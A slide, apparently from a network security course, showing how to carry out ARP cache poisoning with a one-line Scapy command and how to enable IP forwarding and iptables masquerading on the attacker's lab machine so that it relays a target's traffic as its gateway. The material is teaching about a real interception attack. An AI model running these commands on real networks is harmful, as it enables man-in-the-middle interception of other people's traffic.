

Network (cont.)
ARP Cache Poisoning with Scapy (cont.)
Using Scapy, you can perform the ARP poisoning attack in just one line of code:
srloop(ARP(hwsrc=attacker_mac_address, psrc=target_gateway_ip, hwdst=target_mac_address, pdst=target_ip))
Now, the target machine will send us any packet that’s intended to go to the internet. In other words, we’ll be the target’s gateway.
However, the attacker’s machine will not forward packets by default.
To make it forward packets, you’ll need to enable the option (this is already done for you):

# sysctl -w net.ipv4.ip_forward=1
We will also enable our attacker machine (server1) to masquerade traffic (this is already done for you):
# iptables -t nat -A POSTROUTING -j MASQUERADE
113